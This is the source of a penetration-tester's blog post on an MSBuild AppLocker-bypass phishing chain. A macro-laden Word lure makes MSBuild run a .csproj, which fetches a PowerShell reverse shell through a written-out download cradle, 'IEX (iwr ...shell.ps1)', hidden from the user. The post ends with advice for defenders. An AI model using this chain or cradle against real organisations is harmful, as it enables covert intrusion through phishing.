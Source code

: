 ```yaml
---
layout: post
title: MSBuild AppLocker Bypass Phishing Payload
published: true
---
```

![msbuild]({{ site.url }}/images/msbuild-csproj.png){: .center-image }

### With regular external vulnerability scans and (hopefully) pentration tests being undertaken, the perimeter is typically not the easy route into an organisation.

People click, and so simulated phishing campaigns and user awareness training are extremely important. However, there can never be complete assurance against credential divulgence or execution of malicious code, so it is critical that organisations implement a multi-layered "defence in depth" strategy. Application whitelisting is an important component of such a strategy, and is an effective means of ensuring that only approved applications can run.

AppLocker is a commonly used whitelisting technology and is built into Windows. The default AppLocker rules for Windows 10 are listed below.

![rules]({{ site.url }}/images/applocker-default-rules.png){: .center-image }

Since Powershell has gained recognition for being the attackers language of choice, many organisations are [increasingly] additionally blocking it. However, blocking powershell.exe is often not sufficient and there are many methods by which PowerShell can be instantiated to send a reverse shell reaching out of the organisation to an attacker.

The post will document one such method, with the "misplaced trust binary" MSBuild.exe. In this scenario, the company has enabled AppLocker with default rules and has also blocked Powershell.

![rules]({{ site.url }}/images/applocker-rules.png){: .center-image }

We can pass a ".csproj" (Visual Studio .NET C# Project file) to MSBuild and have it execute C# and instantiate a Powershell runspace using the System.Management.Automation.dll assembly. The powashell.csproj file below by Casey Smith ([@SubTee](https://twitter.com/subtee)) builds upon Jared Atkinson's ([@jaredcatkinson](https://twitter.com/jaredcatkinson)) and Justin Warner's ([@sixdub](https://twitter.com/sixdub)) work.

<script src="https://gist.github.com/egre55/7a6b6018c9c5ae88c63bdb23879df4d0.js"></script>

This executes the second (and final) stage of the payload via PowerShell 3.0+ download cradle:

`pipeline.Commands.AddScript("IEX (iwr 'http://10.10.10.10/shell.ps1')");`

Shell.ps1:

<script src="https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3.js"></script>

Good. Now we need a means of delivering the project file and executing MSBuild. The macro below will do just this.

<script src="https://gist.github.com/egre55/563159175f8d6c1d31d7f3af77357549.js"></script>

The `WindowType` parameter of the Shell function has been set to `vbHide` in order to avoid calling attention to our activities. Now, in order to stand a chance of the macro being executed, we need to dress the document appropriately.

John Lambert ([@JohnLaTwC](https://twitter.com/johnlatwc)) regularly shares interesting phishing lures and payloads, if you need inspiration for simulated phishing campaigns ;) . I find the "Document created in newer/older Office version" lures especially convincing. John has put together [this](https://t.co/OwH28ltngy) compendium of macro based lures, which is great for educating users about the different techniques attackers use.

FailedDeliveryNotification.docx:



Now that our "malicious" document has been created we can test it out.

Once the user opens the document and enables macros, the powashell.csproj is downloaded for MSBuild to execute, which in turn downloads and executes the Powershell reverse shell one-liner. All completely invisible to the user.

![rules]({{ site.url }}/images/shell.png){: .center-image }

We can see that this payload is also an effective means of bypassing PowerShell Contrained Language mode.

This is not a particularly advanced payload as the .csproj is written to disk, and no attempt was made to obfuscate any part of the payload.

Hopefully, this examples highlights the danger of "misplaced trust" binaries such as MSBuild. Companies should block their use unless explicitely required for certain users (e.g. developers). Oddvar Moe ([@Oddvarmoe](https://twitter.com/oddvarmoe) maintains an excellent [list](https://github.com/api0cradle/UltimateAppLockerByPassList) of AppLocker bypass techniques, which is a good list of "misplaced trust" binaries that IT departments should consider blocking.

If possible, companies should also block macros for users who don't need this functionality. Additionally, if a company has decided to block PowerShell using Application Whitelisting, then the following files should be added to the blacklist.

<script src="https://gist.github.com/egre55/61b6cd2b23b605e6a017e81e5cb97f3e.js"></script>

However, there are multiple methods an attacker could use to instantiate a Powershell runspace, for example by downloading a custom binary. In which case, Defenders could respond by...

... and so the back and forth attacker/defender dance continues :)





